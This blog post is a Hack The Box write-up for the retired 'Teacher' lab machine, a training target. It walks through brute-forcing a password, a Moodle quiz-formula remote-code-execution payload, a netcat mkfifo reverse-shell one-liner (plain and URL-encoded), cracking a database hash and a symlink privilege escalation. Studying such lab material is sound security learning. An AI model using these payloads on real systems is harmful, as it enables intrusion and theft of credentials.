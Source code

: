 ```yaml
---
layout: post
title: Hack The Box - Teacher
categories: hack-the-box
tags: [Linux, Web, RCE, php]
image: /hackthebox/teacher/0.png
---
```

<hr>
### Quick Summary
#### Hey guys , today Teacher retired and here is my write-up about it. I don't have too much to say about this box. It was an easy regular machine , We will exploit an authenticated remote code execution in a vulnerable version of a web application called moodle to get an initial shell on the box. And for privilege escalation we will find a directory which permissions are set to read , write and execute by anyone , and from there we can create a symlink to `/root` or anything else we want to access. It's a linux box and its ip is `10.10.10.153` I added it to `/etc/hosts` as `teacher.htb`. Let's jump right in !
![](/images/hackthebox/teacher/0.png)
<hr>
### Nmap
#### As always we will start with nmap to scan for open ports and services : 
`nmap -sV -sT -sC teacher.htb`
![](/images/hackthebox/teacher/1.png)
#### We only see http running on port 80. Let's see what's in there.
<br>
<hr>
### HTTP Initial Enumeration
![](/images/hackthebox/teacher/2.png)
#### There is just a static website titled `Blackhat highschool` , I looked into other pages like `Courses` , `Students` etc... And also checked their source code. And on `Gallery` : 
![](/images/hackthebox/teacher/3.png)
#### I found this line in the source :
![](/images/hackthebox/teacher/4.png)
#### for `<img src="images/5.png">` there is an `onerror` attribute to print `That's an F` in the console. So I checked the console : 
![](/images/hackthebox/teacher/5.png)
#### Weird let's check that image. `http://teacher.htb/images/5.png` :
![](/images/hackthebox/teacher/6.png)
#### Corrupted file ? Let's check if it's really a corrupted image or it's not an image at all :
`curl http://teacher.htb/images/5.png`
![](/images/hackthebox/teacher/7.png)
```
Hi Servicedesk,

I forgot the last charachter of my password. The only part I remembered is Th4C00lTheacha.                                                 

Could you guys figure out what the last charachter is, or just reset it?                                                                   

Thanks,
Giovanni
```
#### Nice , we have a username and a password but we still need to figure out the last character. But where will we use these credentials anyway ? I ran gobuster with `/usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt` in the background and got some results , one of them was `/moodle`. 
`http://teacher.htb/moodle`
![](/images/hackthebox/teacher/8.png)
> Moodle is a free and open-source learning management system written in PHP and distributed under the GNU General Public License  -[Wikipedia](https://en.wikipedia.org/wiki/Moodle)

#### On the login page there's a guest login :
![](/images/hackthebox/teacher/9.png)
#### However I couldn't achieve anything from that guest login.
<br>
<hr>
### Bruteforcing the last character
#### We have the credentials but we need to figure out the last character of the password. I created a list of numbers , letters and special chars and printed them next to the password.
#### `for i in {a..z}; do echo Th4C00lTheacha$i; done > list.txt` this will print all the letters next to `Th4C00lTheacha`
#### Then I added some special chars manually like `!@#$%^&*()_-+=.?/\` and finally I added numbers : `for i in {0..9}; do echo Th4C00lTheacha$i; done >> list.txt`
#### `list.txt` : 
```
Th4C00lTheachaa
Th4C00lTheachab
Th4C00lTheachac
Th4C00lTheachad
Th4C00lTheachae
Th4C00lTheachaf
Th4C00lTheachag
Th4C00lTheachah
Th4C00lTheachai
Th4C00lTheachaj
Th4C00lTheachak
Th4C00lTheachal
Th4C00lTheacham
Th4C00lTheachan
Th4C00lTheachao
Th4C00lTheachap
Th4C00lTheachaq
Th4C00lTheachar
Th4C00lTheachas
Th4C00lTheachat
Th4C00lTheachau
Th4C00lTheachav
Th4C00lTheachaw
Th4C00lTheachax
Th4C00lTheachay
Th4C00lTheachaz
Th4C00lTheacha!
Th4C00lTheacha@
Th4C00lTheacha#
Th4C00lTheacha$
Th4C00lTheacha%
Th4C00lTheacha^
Th4C00lTheacha&
Th4C00lTheacha*
Th4C00lTheacha(
Th4C00lTheacha)
Th4C00lTheacha_
Th4C00lTheacha-
Th4C00lTheacha+
Th4C00lTheacha=
Th4C00lTheacha.
Th4C00lTheacha?
Th4C00lTheacha/
Th4C00lTheacha\
Th4C00lTheacha0
Th4C00lTheacha1
Th4C00lTheacha2
Th4C00lTheacha3
Th4C00lTheacha4
Th4C00lTheacha5
Th4C00lTheacha6
Th4C00lTheacha7
Th4C00lTheacha8
Th4C00lTheacha9
```
#### Since it's a small list , I used burp intruder to bruteforce the password. Let's intercept the request and send it to intruder :
![](/images/hackthebox/teacher/10.png)
<br>
<br>
![](/images/hackthebox/teacher/11.png)
<br>
<br>
![](/images/hackthebox/teacher/12.png)
#### After it's finished , all the responses were 870 bytes in length except the response of the payload `Th4C00lTheacha#`.
![](/images/hackthebox/teacher/13.png)
#### So probably this is the right password , let's check.
![](/images/hackthebox/teacher/14.png)
#### It worked and now we are in as `Giovanni`
<br>
<hr>
### RCE , Initial Shell as `www-data`
#### After some enumeration I didn't find anything interesting , so I searched on Google and found this [article](https://blog.ripstech.com/2018/moodle-remote-code-execution/). Let's try to reproduce that vulnerability.
#### First , we will go to the `Algebra` course :
![](/images/hackthebox/teacher/15.png)
#### Then we will turn editing on :
![](/images/hackthebox/teacher/16.png)
#### Now we can edit the course , so we will choose any topic and click on `Add an activity or resource` and we will choose `Quiz` :
![](/images/hackthebox/teacher/17.png)
#### Then we will just fill in the required information :
![](/images/hackthebox/teacher/18.png)
#### And click on `Save and display`.
![](/images/hackthebox/teacher/19.png)
#### After that we will click on `edit quiz` :
![](/images/hackthebox/teacher/20.png)
#### And add a new question. Question type will be `Calculated` :
![](/images/hackthebox/teacher/21.png)
<br>
<br>
![](/images/hackthebox/teacher/22.png)
#### Again we will fill in the required information :
![](/images/hackthebox/teacher/23.png)
#### And finally we reach the actual exploitation , we will set the answer formula to :
```
/*{a*/`$_GET[0]`;//{x}}`
```
![](/images/hackthebox/teacher/24.png)
#### This will allow us to pass system commands through a url parameter called `0` , More info about how the exploit is working can be found in the previously mentioned article.
#### After saving the changes we will get this page : 
![](/images/hackthebox/teacher/25.png)
#### We will click on `Next Page` to finally get to the vulnerable page :
![](/images/hackthebox/teacher/26.png)
#### Let's add the parameter `0` and get a reverse shell :
#### Shell : `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc ip port >/tmp/f`
![](/images/hackthebox/teacher/27.png)
#### Note : the payload is url encoded. So final payload will be : `&0=rm+/tmp/f%3bmkfifo+/tmp/f%3bcat+/tmp/f|/bin/sh+-i+2>%261|nc+ip+port+>/tmp/f`
#### After sending the request , our listener gets a callback. And we get a reverse shell as `www-data` :
![](/images/hackthebox/teacher/28.png)
#### There is only `giovanni` on the box and we can't access his `/home` directory as `www-data`.
![](/images/hackthebox/teacher/29.png)
<hr>
### Hardcoded Database Credentials , Privilege Escalation to `giovanni`
#### Back to `/var/www/html/moodle` , I wanted to check config files and other stuff to see if there are any information that can help. And in `config.php` I found database credentials :
![](/images/hackthebox/teacher/30.png)
#### Sweet , Let's see what's in there.
`mysql -h 127.0.0.1 -u root -p`
![](/images/hackthebox/teacher/31.png)
#### We are not in any database `[(none)]` , Let's list the databases :
`SHOW DATABASES;`
![](/images/hackthebox/teacher/32.png)
#### `moodle` is interesting and might have some passwords.
`USE moodle;`
![](/images/hackthebox/teacher/33.png)
#### Now let's check the tables :
`SHOW TABLES;`
![](/images/hackthebox/teacher/34.png)
#### A lot of tables , but an interesting one is called `mdl_user` :
![](/images/hackthebox/teacher/35.png)
#### Alright , let's see what's in that table :
`SELECT * from mdl_user;`
![](/images/hackthebox/teacher/36.png)
#### We didn't get the best output :D but anyway I looked into it and found this `md5` hash :
![](/images/hackthebox/teacher/37.png)
#### And its name is `Giovannibak` , probably a backup for giovanni's password. [crackstation](https://crackstation.net/) was able to crack it :
![](/images/hackthebox/teacher/38.png)
#### The password is `expelled`, we can `su` to `giovanni`
![](/images/hackthebox/teacher/39.png)
#### Now we own user.
<br>
<hr>
### `777`. Ability to read , write and execute anything on the system
#### In giovanni's `/home` directory there is a directory called `work` which has two directories `courses` and `tmp`. Nothing Special.
![](/images/hackthebox/teacher/40.png)
<br>
<br>
![](/images/hackthebox/teacher/41.png)
#### After a lot of enumeration I found in `/usr/bin` a script called `backup.sh` :
![](/images/hackthebox/teacher/42.png)
<br>
<br>
![](/images/hackthebox/teacher/43.png)
#### We don't really care about the `tar` commands , What we care about is that it's changing current directory to `/home/giovanni/work` then changes it once again to `/home/giovanni/work/tmp` then changes permissions to `777` recursively. This means that any user can read , write and execute any file in `/home/giovanni/work/tmp`. So if we created a symlink for `/root` in `/home/giovanni/work/tmp` and wait for the script to get executed by root (cronjob) we will have access to `/root`. In normal conditions creating a symlink to `/root` won't let you have access to it if you don't have the permissions to. Because it's still linking to a directory that you are not authorized to access. But since the script runs `chmod 777` on `/home/giovanni/work/tmp` recursively, Anyone has access to what's in there even symlinks. This [article](https://www.maketecheasier.com/file-permissions-what-does-chmod-777-means/) explains it very well. Read [this](https://stackabuse.com/symbolic-links-in-unix-linux/) if you don't know what's a symlink.
#### Alright , Let's create a symlink for `/root` in `/home/giovanni/work/tmp`
`ln -s /root ./tmp`
![](/images/hackthebox/teacher/44.png)
<br>
<br>
![](/images/hackthebox/teacher/45.png)
#### And we owned root !
<br>
<br>
#### That's it , Feedback is appreciated !
#### Don't forget to read the [previous write-ups](/categories) , Tweet about the write-up if you liked it , follow on twitter [@Ahm3d_H3sham](https://twitter.com/Ahm3d_H3sham)
#### Thanks for reading.
<br>
<br>
#### Previous Hack The Box write-up : [Hack The Box - RedCross](/hack-the-box/redcross/)
#### Next Hack The Box write-up : [Hack The Box - Irked](/hack-the-box/irked/)
<hr>
